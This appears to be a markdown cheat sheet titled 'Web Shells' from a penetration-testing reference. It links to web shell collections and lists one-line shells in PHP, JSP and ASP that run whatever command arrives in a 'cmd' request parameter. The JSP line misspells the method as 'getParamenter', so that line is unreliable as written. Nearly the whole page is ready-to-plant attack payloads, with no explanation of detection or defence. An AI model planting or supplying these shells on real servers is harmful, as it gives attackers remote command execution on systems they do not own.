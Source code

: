 ```yaml
---
title: Web Shells
---
```

***

https://github.com/tennc/webshell

http://r57.gen.tr/
https://github.com/KaizenLouie/C99Shell-PHP7
https://www.1337pwn.com/best-php-web-shells/

#### PHP
<a name="php"></a> 
```php
<?php system($_REQUEST["cmd"]); ?>
## The $_GET doesn't get picked up by SharePoint in MarkDown.
<?php system($_GET[cmd]); ?>
```

#### JSP
```jsp
<% Runtime.getRuntime().exec(request.getParamenter("cmd")); %>
```

#### ASP
```asp
<% eval request("cmd") %>
```
